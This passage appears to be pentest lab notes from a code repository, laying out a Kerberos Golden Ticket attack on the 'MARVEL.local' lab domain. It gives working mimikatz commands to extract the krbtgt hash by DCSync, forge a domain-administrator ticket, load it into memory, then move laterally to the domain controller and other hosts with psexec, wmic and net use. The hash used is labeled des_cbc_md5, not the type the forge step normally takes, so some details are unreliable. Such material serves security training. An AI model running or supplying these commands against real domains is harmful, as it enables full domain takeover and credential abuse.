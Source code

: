 ### Step 1: Gather Required Information
```bash
# From NTDS.dit extraction or DCSync - Real MARVEL Domain Example
Domain: MARVEL.local
Domain SID: S-1-5-21-301214212-3920777931-1277971883
krbtgt hash: 26b5da5eecb54cc1

# Alternative extraction methods
mimikatz.exe "lsadump::dcsync /domain:MARVEL.local /user:krbtgt"
# Output shows:
# * Kerberos
#   Default Salt : MARVEL.LOCALkrbtgt
#   Credentials
#     des_cbc_md5    : 26b5da5eecb54cc1
```

### Step 2: Create Golden Ticket with Mimikatz
```bash
# Real MARVEL Domain Golden Ticket Creation (from screenshot)
mimikatz.exe "kerberos::golden /user:Administrator /domain:marvel.local /sid:S-1-5-21-301214212-3920777931-1277971883 /krbtgt:26b5da5eecb54cc1 /ticket:golden.kirbi"

# Advanced options with multiple groups
mimikatz.exe "kerberos::golden /user:Administrator /domain:MARVEL.local /sid:S-1-5-21-301214212-3920777931-1277971883 /krbtgt:26b5da5eecb54cc1 /groups:512,513,518,519,520 /ticket:golden.kirbi /ptt"

# The command structure shown in screenshot:
# mimikatz # kerberos::golden /User:Administrator /domain:marvel.local /sid:S-1-5-21-301214212-3920777931-1277971883 /krbtgt:26b5da5eecb54cc1
```

### Step 3: Use Golden Ticket
```bash
# Load ticket into memory
mimikatz.exe "kerberos::ptt golden.kirbi"

# Verify ticket is loaded
klist

# Test access to domain controller
dir \\dc.marvel.local\c$
```

## 🚀 Practical Golden Ticket Usage

### Remote Access Examples
```bash
# Access Domain Controller
psexec.exe \\dc.marvel.local cmd

# Access any domain system
psexec.exe \\workstation.marvel.local cmd

# Mount remote shares
net use Z: \\fileserver.marvel.local\share

# Execute commands remotely
wmic /node:target.marvel.local process call create "cmd.exe"
```

